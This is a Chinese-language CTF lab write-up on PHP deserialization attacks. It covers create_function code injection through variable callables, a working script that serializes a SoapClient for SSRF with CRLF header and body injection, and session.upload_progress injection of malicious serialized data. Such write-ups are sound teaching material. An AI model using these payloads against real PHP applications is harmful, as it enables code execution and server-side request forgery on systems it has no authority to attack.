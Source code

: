 ## Level 1 - `create_function` 与可变函数的调用

**代码分析:**

观察代码可以得知，`func` 类的析构函数会反序列化自身的 `key` 属性，并将其当作一个可调用（callable）对象来执行。`GetFlag` 类的 `get_flag` 方法会把自身的 `action` 属性也当作一个可调用对象来执行。

**核心知识点:**

1.  **`create_function($args, $code)`:** 这是 PHP 的一个函数，用于动态地创建一个匿名函数（闭包）。第一个参数 `$args` 定义函数的参数列表（字符串形式），第二个参数 `$code` 是函数的代码体（字符串形式）。*（注意：此函数在 PHP 7.2.0 中被弃用，并在 PHP 8.0.0 中被移除，存在严重安全风险）。*
2.  **PHP 中的可调用对象 (Callable):** 在 PHP 中，可以用多种形式表示一个可被调用的单元：
      * 函数名的字符串，例如 `"system"`。
      * 数组形式 `[对象实例, '方法名字符串']`，例如 `[$object, 'methodName']`。
      * 数组形式 `['类名字符串', '静态方法名字符串']`，例如 `['ClassName', 'staticMethod']`。
      * 实现了 `__invoke()` 魔术方法的对象实例。
      * 匿名函数（`Closure` 类的实例）。

**解题思路:**

理解了以上知识点后，解题步骤如下：

1.  **构造对象:** 创建 `GetFlag` 类和 `func` 类的实例（假设实例分别为 `$a` 和 `$f`）。
2.  **设置 `GetFlag` 的 `code` 属性:**
      * 赋值为：`'}include("flag.php");echo $flag;//'`。
      * **解释:**
          * 开头的 `}` 是为了闭合 `create_function` 默认在代码体外部添加的 `{`。这样，`include` 及后续代码就能脱离 `create_function` 创建的匿名函数的局部作用域，成为全局代码，从而能够访问全局变量 `$flag` 或执行 `include`。
          * 末尾的 `//` 用于注释掉 `create_function` 可能在代码体后追加的 `}` 或其他代码，防止语法错误或干扰。
3.  **设置 `GetFlag` 的 `action` 属性:**
      * 赋值为字符串：`"create_function"`。
      * **解释:** 虽然 `"create_function"` 本身是一个字符串，但根据 PHP 的可调用对象规则，当 `$a->action` 被当作函数调用时 (`($this->action)($this->code)` in `get_flag` method)，PHP 会将其识别为函数名并执行 `create_function` 函数。它会使用 `$this->code`（即我们构造的代码字符串）作为参数，动态创建一个函数并返回其内部名称（但由于我们注入的代码，实际执行的是 `include` 等）。
4.  **设置 `func` 的 `key` 属性:**
      * 赋值为一个数组：`[$a, "get_flag"]` (这里 `$a` 是 `GetFlag` 的实例)。
      * **解释:** 根据 PHP 的可调用对象规则，当 `$f->key` 在 `func` 的析构函数中被当作函数调用时 (`($this->key)();`)，PHP 会识别这是一个对象方法调用。它会自动调用数组的第一个元素 `$a` 作为对象实例，第二个元素 `"get_flag"` 作为要调用的方法名，从而执行 `$a->get_flag()`。

**执行流程:**

当 `$f` 对象销毁（例如脚本结束时）触发其析构函数 `__destruct` -\> `$this->key` (即 `[$a, "get_flag"]`) 被调用 -\> 执行 `$a->get_flag()` -\> `$this->action` (即 `"create_function"`) 被调用 -\> 执行 `create_function($this->code)` -\> 由于注入的 `}` 和 `//`，实际执行了 `include("flag.php"); echo $flag;` -\> 成功获取 flag。

**相关图片:**
![create_function与可变函数的调用 1](./images/SERS1.png)
![create_function与可变函数的调用 2](./images/SERS2.png)
![create_function与可变函数的调用 3](./images/SERS3.png)

-----

## Level 2 - just\_one\_soap (利用 SoapClient 进行 SSRF)

**核心原理:**

PHP 的 `SoapClient` 类可以用于向指定的 `location` 发送 HTTP (SOAP) 请求。关键在于，当你调用 `SoapClient` 对象的**任意方法**（即使该方法在类中并不存在）时，PHP 会尝试将这个方法调用解释为一个 SOAP 操作，并据此触发一个到底层 `location` URL 的 HTTP 请求。

**题目场景:**

在题目 `index.php` 中调用了 `$c->daydream()`。如果变量 `$c` 是 `SoapClient` 类的一个实例，那么当 `$c->daydream()` 被执行时，`daydream` 会被视为一个 SOAP 方法名，从而触发 `SoapClient` 向其配置的 `location` 发起 HTTP 请求。这可以被用来进行服务端请求伪造 (SSRF)。

**构造 Payload 实现 SSRF:**

目标是构造一个 `SoapClient` 实例，使其发出的 HTTP 请求能够满足 `flag.php` 的验证条件（例如，特定的 User-Agent、Content-Type、POST 数据等）。

```php
<?php
// 需要发送的 POST 数据体
$post_data = 'pass=password';
// 计算 POST 数据体的长度
$data_len = strlen($post_data);

// 构造 User-Agent，利用 \r\n 注入额外的 HTTP 头部
// 这里注入了 Content-Type 和 Content-Length 头，以及 POST 数据体
$user_agent = "admin\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: $data_len\r\n\r\n$post_data";

// 创建 SoapClient 实例
$a = new SoapClient(null, [ // 第一个参数 WSDL 设置为 null
    'location'   => 'http://<target_server>/SER/level10/flag.php', // 目标 URL
    'user_agent' => $user_agent, // 设置包含注入头部的 User-Agent
    'uri'        => 'bbba' // targetNamespace，可以任意设置，对 SSRF 不重要
]);

// 序列化构造好的 SoapClient 对象
$b = serialize($a);
// URL 编码序列化后的字符串，以便通过 GET/POST 参数传递
echo urlencode($b);
?>
```

**关键选项:**

  * `location`: 指定 SOAP 请求的目标 URL。
  * `user_agent`: 允许自定义 HTTP 请求的 `User-Agent` 头。利用这个选项和 `\r\n` (CRLF)，可以注入任意其他的 HTTP 头部，甚至是在某些情况下注入请求体（如上例所示，通过两个 `\r\n` 分隔头部和主体）。
  * `uri`: 指定 SOAP 消息的 `targetNamespace`。

通过将 `urlencode($b)` 的结果提交给目标应用的某个反序列化入口点（例如，作为某个参数的值），当目标代码反序列化并得到 `$c = unserialize(...)`，随后调用 `$c->daydream()` 时，就会触发一个精心构造的 HTTP 请求到 `flag.php`，从而可能获取 flag。

-----

## Level 3 - session.upload\_progress (利用文件上传机制进行反序列化)

**场景:**

当 PHP Session 的存储内容本身不可直接控制时，但服务器配置满足以下条件：

1.  `session.upload_progress.enabled` 设置为 `On` (PHP \>= 5.4 默认开启)。
2.  应用中存在反序列化 Session 数据的代码。

**核心原理:**

当 `session.upload_progress.enabled` 开启时，PHP 会在处理文件上传的**同时**，检查是否存在一个特定名称的 POST 参数（该名称由 `session.upload_progress.name` 配置项定义，默认为 `PHP_SESSION_UPLOAD_PROGRESS`）。如果这个 POST 参数存在，PHP 就会在 `$_SESSION` 中创建一个以 `session.upload_progress.prefix` (默认值) + 这个 POST 参数的**值** 组合而成的键，并在该键下存储文件上传的进度信息（包括文件名、临时文件名等）。

**漏洞利用:**

利用的关键在于：在文件上传**开始时**，PHP 会查找名为 `PHP_SESSION_UPLOAD_PROGRESS` 的 POST 变量，并将其**值**写入 Session 数据结构中（通常是作为 `$_SESSION` 数组的一个键名或键名的一部分）。如果在文件上传的**同一个请求**中，我们发送了 `PHP_SESSION_UPLOAD_PROGRESS=恶意序列化字符串` 这样的 POST 数据，那么这个恶意字符串就有可能被写入到 Session 文件中。如果之后应用程序代码读取并反序列化了该 Session 数据（例如 `unserialize($_SESSION['some_key'])`），就能触发反序列化漏洞。

**利用步骤:**

1.  **构造 Payload:** 精心构造一个包含恶意 PHP 对象的序列化字符串。
2.  **创建 HTML 表单:**
      * 包含一个文件上传字段 (`<input type="file" name="file">`)。
      * **关键:** 在同一个表单中，包含一个隐藏字段或通过 JavaScript 添加一个 POST 参数，其**名称**为 `PHP_SESSION_UPLOAD_PROGRESS`，其**值**设置为步骤 1 中构造的恶意序列化字符串。
    <!-- end list -->
    ```html
    <form action="http://target.com/upload.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="恶意序列化字符串在这里" />
        <input type="file" name="file" />
        <input type="submit" value="Upload" />
    </form>
    ```
3.  **发送请求 (或修改请求):**
      * 方法一：直接通过上述 HTML 页面提交表单。选择任意一个文件上传。PHP 在处理上传时会读取 `PHP_SESSION_UPLOAD_PROGRESS` 的值并写入 Session。
      * 方法二（如原笔记所述，更灵活）：
          * 使用普通的文件上传表单提交一个文件。
          * 使用代理工具（如 Burp Suite）拦截这个上传请求。
          * 在请求的 POST 数据部分，**手动添加**一个名为 `PHP_SESSION_UPLOAD_PROGRESS` 的参数，并将其值设置为你的恶意序列化字符串。
          * 发送修改后的请求。

**后续:**

一旦包含恶意序列化字符串的 Session 数据被写入，等待或触发目标应用程序中反序列化 Session 数据的代码路径，即可执行任意代码或实现其他攻击效果。